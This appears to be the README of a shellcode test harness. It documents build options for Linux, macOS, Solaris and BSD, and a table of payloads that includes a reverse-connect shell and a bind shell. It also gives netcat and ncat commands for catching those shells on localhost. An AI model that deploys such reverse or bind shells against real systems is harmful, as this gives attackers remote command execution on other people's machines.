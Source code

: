 
# About

This is work in progress so if you decide to fork or try running codes and they fail, just bear in mind it's not really intended for anyone else to use right now.

# Usage

    ./t2 -h

	  Target OS: x86-64 LINUX
	  usage: test -s <number> -p <port> -a <ip address> -c <command>
	
	  -c <command>  Command to execute
	  -s <number>   Shellcode to execute (see table below)
	  -p <port>     Port to use to bind/reverse shell (default is 1234)
	  -a <ip>       Remote ipv4 address for reverse shell (default is localhost)
	
	  Number  Description                                              Size
	  ======  ===========                                              ========
	  0       execve("/bin/sh", {"/bin/sh", NULL}, 0)                  22 bytes
	  1       execve("/bin/sh", {"/bin/sh", "-c", <cmd>, NULL}, 0)     39 bytes
	  2       socket(), connect(), execve("/bin/sh")                   67 bytes
	  3       socket(), bind(), listen(), accept(), execve("/bin/sh")  79 bytes

# Mac OSX x86-64

Compile with OSX defined

    gcc -DOSX t2.c -ot2 -I./os
  
# Solaris x86
    
    gcc -DSX86 t2.c -ot2 -lnsl -lsocket

# BSD x86 or x86-64

	gcc -DBSD32 t2.c -ot2
    gcc -DBSD t2.c -ot2

# Linux x86 or x86-64
    
    gcc -DLINUX32 t2.c -ot2
    gcc t2.c -ot2
    
# Testing shells
    
For reverse connect shell (2). Have netcat or ncat listen on port 1234
    
    ncat -vl4 localhost 1234
    nc -vl 1234

Then execute
  
    ./t2 -s2  
  
For the bind shell(3). Execute

    ./t2 -s3
  
Then try connect: 

    nc -v localhost 1234
    ncat -v4 localhost 1234

When connected, you won't actually see anything since it's not a pty or interactive shell. Type something like ls -asl and you'll receive a detailed directory listing.
    
# Author

[@odzhancode](https://www.twitter.com/odzhancode "Follow me on Twitter")
